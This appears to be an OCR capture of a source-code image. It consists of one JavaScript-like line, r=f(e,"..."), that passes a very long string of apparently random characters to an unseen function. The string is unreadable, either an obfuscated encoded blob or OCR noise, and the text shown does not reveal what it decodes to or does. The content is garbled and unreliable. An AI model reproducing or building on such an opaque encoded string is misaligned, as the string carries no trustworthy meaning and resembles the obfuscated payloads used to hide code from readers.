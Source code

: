 r=f(e,"3h/1Gxg-^eU_,t<y^t,1/1^G<^GyU-5^ge,^UaGegU,_hGet/_-e1gU1yxxg_-hgz/eh<ex-U_hhg_^xF_eGy^x/_,hL,U1f^e<UG_UUUUh--ytUG^U_,e_-ht-gt-1^e-^1vh/hUU1/e1<eUGh<g1,G/x^Ge<<ygg_H/1^Gt-G-etye1k^g<-x/UUhh-Gt/1-e1yhxG_Ghe-et<1e/xe/<GGxUgdxC=-h<h1eUhVgh1U/hU^te-/tUey<_eh<-^te1Uee^y{--^tg1GeGGx_*LGgx,g/x/Hey?Gxe_xt/xUtxG/e__-xJh--ytg1-e^y-<<g<,g</geygxUUyh_,g1C^x<gG-Uge,h<^x<G1_eUythxe</,-U1-U1ygx-_^h-hg^x</Gtg1ykgU,t/^^_}/cU-tgUt</e^U<_GUGx__hx-e<xG<x^t_get1/x^_<xyy^/B/-gt-1s^UyeUxhxgG,x/g^xgyyUgG_xthx<</1-U7tuh-UU//eFt,G^_zx,t,h_-,tt1,/,_Gh1-g^^hh^_<<x-gttgxx<x1yexy,g1,1h-1-<gG^xU<_xy^,C_^<</GUU<S^/t/1Ux</G1UGr1yh^h<hG1Uhyxhh,-/1-^tgGUe,T_heth/G^^<ey<Uh5x/h,</,e-yeG_U_,^-h,y1teh__U,hxg_,,/t^,-_0Ggx,GhU-UeU/1_hyy_,11-_t,1te,e-hhgytG/tGettx-Ut/g--tt1-xh<hgh,5h<^Gt,y^^_<UG/hU^,te1Ue_yUKeg_t11^eUy/xhU,hx/_,h1_e->xxx,1/x-G<Le1y<x/_1hG-1g<<^GgU/6G-xt11xxW,,xUU^gxtt/G^x<gGx/<_,h^-ttgy/-gy,xg,1/-^h<^G^U<_,x6,-/,ex<tG1_-h1--/G^-<1GGUx-U,^/Uex<y<<xUUtH<gy,<__GUU^_eGy,e/xe1<1xh_1A/g</h^-<QGhU/Dhy-g_<M<,-x(1xhW<-g,t/<^y<<<gge,-/1-yt<xPxtyG_t/<-,tt1<et^^hx-xt,1_eey-xhgth/-<ep/Gex}xxt,x/UtxG<eGyxxg_xU/1g^G<1xg_gFG-g^xhe^UyUx/_Uhy/,_GG-e,_!1t_-hG-_<U1_yxge_Ghx-gtx<hG-_/n1-rtG/-x/<,Gt-gyg^/t//t^/;-1x^-/h^_1Fe-<yxa_hhTyU^^<^Ggx,<x-1,h-<<^1te<yyx<xU<91^^<UUxU_<,tx/t^1x<yxGU<My-j,y,eGhUe_Uxh^<-_</1Ue_y,x_xgt^/ge^U-1L_<A,,e1G^^<eGUUeetPx^ht^1<-,hmxt-eA/e}t<e_(1xU__h,-_gGy^GtU_he/^_h1y^tGU, ZegU,_/U/gU/l_xU,^t-x,t<GOUfuU-a,1ty-1<UGy_^hCggtU1geUG-Uysgg-,^/-hGU^Chx<,//^x_tyGxygx,_xhg--tg<1x-UxzG--t-/e<1xhU/z1gG,1,u1Ueg%GxG,//G-1tyyG-gyUgG,h/-t^Ghe-y^xe_^_GY<^_y^xhU<,gGytt/_<^xeU-M^ge,^_11/UG_1Gg_ghe-,e^/,U1L^-h,ehye1<yx1VZge_y/=^h<6,tgh_Uh--_tgG/-xyexyh.-U,y1Sehy7<x-/-U._^hyhy<ehXygG,t^h<^G&Uh4/ghg/ty1ye_Ut1g,Gh/,yGy^<<yx0UyUg/^^t<1G^Uxh-g1-y1ee*y-xxgGp,g-tG/tGey8xU_<,t->tGGGUxy-gx-Gy_gg,Uegy,xx_gh--g-h,y1egh<-xg_G^1yFG/U1LGg1x_t_1tG<t^gG-hLg^xtx1eeyXxxyh-^htg1-e^y-</gy,y18^^<-xegg<y-t,_^^yGG-U^Ieg^g1tgextUx-e^,xt-x<</Gte<lG__/x-Ut_1,e_^Ghe-^te1)^tUeGheGy<x//,eG<_G,Uts,yx-etUheUtatg<,U/Ut_GGeUy_x,__Ux1S^g<UG,g^<_g_t-1^<_xeUUw_g,,__x1xUey<ge,-/^^-e_ht_hh/g!,1/,<JGgeyR6gh,{_<yt-UU_1G,/h ,t1g^,<tG<UteghU-_,_1<etCygx,,/,ttGge,ytx<_t_1/_e<U^1<_U ygt<h11<tx,U,4tg<,t_gGGU?4xx<-U4--tyrx/xyy1-x,11h^^G1UeK/g1,G/1/He,yhGy,1hx^G1ceU<yxf_hhXQ^^_tyG^Uxh/g_U</<^ty_UTyygk,h//^1<GGx<gnU-G,e/U^_<U<GxG_-h^^x<gGgxe</-J_<-_<G1Ue_y,x_Getg1GeGy_xG_/h^-jty^_y^GUU_>,g_g/t,//Uyt<xt,h/g^6<hyt^ghGg/hy^yt<1yURyy<U--teG1G_toxg,hh/-y<11gx1<Ex<,G//tgGgexygx-_gU_/<eGy0xGUghtg^t//,G^tgG_,GhG-/t_^ty-G,Ut!<gtx_</1^Uxy</h,<t,gxy1Ghy<g-_th<-yt<,t1gg^<yx1_<hG-gt,1gA<-x,t/<^y<<</gg,Gtegx<GGUUGx,,_h_-,tt1,1-UUhU-_th1-ehy<0,U>h1-/<G1UUhih_//U-ht/11e/^-y,g9-tbh^^yGxUg/<gg,,g1ge_<tx_gUtt/,,;1hUhyegh,g-ht_19ehy/xh1t,y/e^1</GtUt,}x1_P9U</G_Uh{/g1,/_//,Ugy/(<eyhe-gtx1^y/gg_hh/-1t/,UGtUhhO-h-yhhGhygx/gGheg-te/y^<y<O_^thg-_/teG<,GtU<PtP^xe,-y^g,,U/_eG-_<-1Ue_y,x_xgt^1-^_<,x,,1,Ug/,t1yG<,hU<//gt,</y^<--#xgh,ghy1_,yxheyhh-1^hhx^,yhxU_/*^-,t^1,<exgU^HegU,e,hGhU1_Gx<,Ut-^,<_1_eyDxg_,x-t<11,ety<xtx,e1}^U/y<x,_rgUt,/e^U<_GU1G_^he1x,eG<ee{_g--_ny^g<_xGU,0/-gt/1g<1G<U/o1gG,1U<1_e_yGx^_-y-^hty1^eUw^_x1--Gtx1gexe(L<gG,x/xG/,_xeU-,gxy^^yh-YK2xU_;h--<t<1/x/mhg1-x2g-UU-/gUeytgx,e/1G^1<Uxytx<_yh<pe^^yGxxU,n,gyt^^,Y/G_U,;tg,g^<G1yU1ytgt-Uyy^h<1G1Uth1gg^/hg^ty/x__1de-tte^eyJG^UePUgeg^t11yU>t-x-,xhyt-x1egy-x^_-U_qG-GU//__eY-/g^yN<e<y^G<_xh,-,tMyQeyLhh1_-hU^/<,GGeU#,/GhUUGte1Ue_yU<UgGtU/UGg<^d^_,Kt-ttx1tU/Uyg1,ghe-UteG^UUQug-,-ye1_,gG,U-Mt/)tx/U^^UG/eUyhUg_t^1,^yUtU_h1gU,_/,^_-G4<gU,^h,1^UU%^gtxU,/he-Ut_1U1eU^h--e,^1gety-G<8e-/,^/e^U<eytgh_Gh^^^<UGeUhi-ghhe^<t^1eeUye</-),,1h^UUg1U_,h_-1tg1hGt<hx^_t/g-<tGG^UGf^_x//-Gtx1gexevh/-^,,/gG/tgGe_h4_gUt,1^e,Ge_1K^ge,U/eh1e<*/g,-xy,^e<tG/U<)<_U/9-etU1_eUe,YGxg,e1x-garU-Wygg,-/^^-^/y^xU,{/,1G_tG_eexg,1hx-gt-^/hsx4,-/<^^,g/g_hh^ghU-bt-e<^<Ug<UelUg_,U_yG^U!{exy,-/G-<eUG<eyfyg-,y1GeGU/Ge_1h-/g_-E_x^t-xUU<hg-UtGyBe/ygx-_ehe1-1/e1y-xt_gh--^t-,yx/Ughxg,t//U<GG,U1dGgx,G_/1e^yDhxx-hyU^^tge1ygx/_1hG-1^/ttGUU1xt,xh,-tt<1t/__xhegy,<<U-1phGy ,^-,_/,^t<,Fgx-,<h^^_<,1yUy&xghe^<<Gy_/h/-_t_1,e,y^xe_t/A-t<x1<Uiux<<xxUtJ<gy,<,e1,U,ntg1,e/1e%1,Uhy_x,_th,hheGyxxxg^Eh,^/y^-<^GeU^e,/U^,t^Gg-ts_xehg-,tx1ge-ygty-ht1/geu<Gx{K1^h,//1^G<1<1xh__ht-teFheU-yxhG-ty,^,<g1,U1*UgU_<t<^t<yShUx#^-ktU1/^^yUh/!^-/,-/^^e<^tGg)_yhG-^t<1ex-<Ag<_,-et_1^eeyU_t1xeh<1</GeUhq/g1,/U_1yeGy/gqe-/x-11bet<yxS_hhj{_^t<y1yx,<--1,,1(GhthGxUgh<,G1<^1<GGxUG_<Ny^gtqG1UGy-g-_thex UgN--h,y/<exyxxx_hh1-/tg1,eey^x^GxU,&Ggx,g/x/Kety_g1-hdG^ht_e14/x/_1hG-1g_<<G,U^TGg1tx</-gyGGUUeh_-Ut<1-<exaU^regU,e_<11e,J/hxe</,-U1-Ugygx-_^h-5G^<</GGUy9e/x_x1-e,y/x-_G/g-/<=^,<_G,UtN<gyto/hthygxt_xhg--tgt^GGU,ax//U_1e^-GG_hp1gG,x/Gh,ex<yxt,G/s-ye1hUUGn^xU_t/,t^G-e-y^xe_^_x/y^_yeGe_-heg^tG<e-t<<x<_gh<^1/<e^<tG<Uy%<y^^g<-G%e___1<,,/t^g<heyh-x<_y/5-y-Gy-x^_^y<-ht(/t^/bGg1__/h-_<^h<Uvy,xt_y/extyhx/_hx<,eht-<ty1</U_Yh_g,te1teCUt1U_^h<-,1feG<yxK_hh{yegx,e/e^hx__,hU-_t,_Xh1ghg1t1//^1<GG11__h/h/<,/1ee<K-xy_x/e^x<ey^-/t1xyhU-<te1Ue_yU<e-x,x/^^_GxU,6Ggx,g/xh,Uay^xy_yy<-,tge1a^x/_1hG-1xtyhGgUUW1/7,/</gxy1Gg_U,-x_t/1-U0y^G<,/h<^//yU<<<Gy_z)yuU-e<-1<UD7<ht_gtyG^,-x-_ho-g<tx1x^eUex^_U,,xtthy<-t%PxG_,/j-Ueyexn_xG_xhg-xx<<,G^Utig//Ug1geGyexU_-hygytt<,-hy1xx_xhy^xt^e/y<xh_/h1-/x<t,GUUhh-/gt1<h-ey/xg_haU,x1h^G<xGgUxeyh1-4t,1<x/<xxx,//g-^ty1<y^gF_-h^-et^,/xgU1hhg_^xE<e,<UU-#<gg,-/^^--1yxxy_et1x,<U1^yxg/_Ghx-gtx,y1y_hze-xt_<1gU<gGe__h--_<1^^<-G^Ue>Ug_,,/t^<y/xe_hh/-1t/__1yU{<exy,h/x^tGRUyyygo,h/+hU^Uy1x<_h,tgy^yhgetvhg1,Ghg1gUeegoUxx_gh--ggh<-GxUghxg^^G?_^-<Ux,_^h,^G^,/hU-y/xy,k/}thGYe4yhx/_hUg/y^t<LG/_Q_yGttU1xe-<ex-_y,-1U/-eg<gG-U^!-k/-^<p1xe<;_xg,,h,1^,_1_e<Lxg_,x-tyh1,ety<xtGgt^1GG^<Ax,_ohy^htU1Gx:<Gx_,S/e^ht-G_U-K__^/e--t^1ee^^^h&GUt/<Ggty_Geg^thx<tk1eGttexG,etUtsG8^yykxh_=e_hU^,e_/<e<7hgG^9hG^_yrx UghU-gtU^-ntGgU-P^g-xy</GDe,y^x-,etgx^<tGtUe__x/e/t<G-,gxg_%PggttG1G^^U^x-_e,_x,tIyt-,yyx1__hy-ee<eG:tx1_Ghx-Gg^t//h^Uye/hUG)y-1,^1heU,^G_,_1yU)yex1_g//^a<-Ghe^a^_Gh<-1tG1xeG^/y<-It1<V-G<xxxUthx-U/xeG<GGxUg:xQ6^1<hGgeU(^xG,Dtxge<_G-U_{1gf,y-_<-1Ue_y,x_x-t11,^_yew^e^h:/__G1/eUy_U